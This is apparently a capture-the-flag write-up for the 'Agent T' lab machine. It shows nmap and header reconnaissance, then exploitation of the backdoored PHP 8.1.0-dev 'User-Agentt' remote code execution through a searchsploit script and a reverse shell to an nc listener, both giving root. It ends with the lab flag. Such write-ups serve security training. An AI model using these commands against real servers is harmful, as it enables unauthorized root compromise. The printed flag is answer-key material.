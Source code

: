 
---

# Agent T

IP = `10.10.147.31`

Hint : Look closely at the HTTP headers when you request the first page...
### Nmap 

```
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
```

### Curl

```
# curl -I 10.10.250.25
HTTP/1.1 200 OK
Host: 10.10.250.25
Date: Tue, 13 Aug 2024 12:12:00 GMT
Connection: close
X-Powered-By: PHP/8.1.0-dev
Content-type: text/html; charset=UTF-8
```


### Initial Foothold

```
# searchsploit php 8.1.0-dev
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution         | php/webapps/49933.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

```

and there is also `https://github.com/flast101/php-8.1.0-dev-backdoor-rce`

*first method* :

`searchsploit -m php/webapps/49933.py`

```
# python3 49933.py
Enter the full host url:
http://10.10.250.25/

Interactive shell is opened on http://10.10.250.25/
Can't acces tty; job crontol turned off.
$ id
uid=0(root) gid=0(root) groups=0(root)
$
```


*second method*:

```
$ git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce
$ cd php-8.1.0-dev-backdoor-rce
$ python3 revshell_php_8.1.0-dev.py http://10.10.250.25 10.6.101.54 9999
```

```
# nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.6.101.54] from (UNKNOWN) [10.10.250.25] 52502
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3f8655e43931:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
root@3f8655e43931:/var/www/html#
```

`flag.txt` is in `/` directory

`cat /flag.txt`

**flag**:
`flag{4127d0530abf16d6d23973e3df8dbecb}`

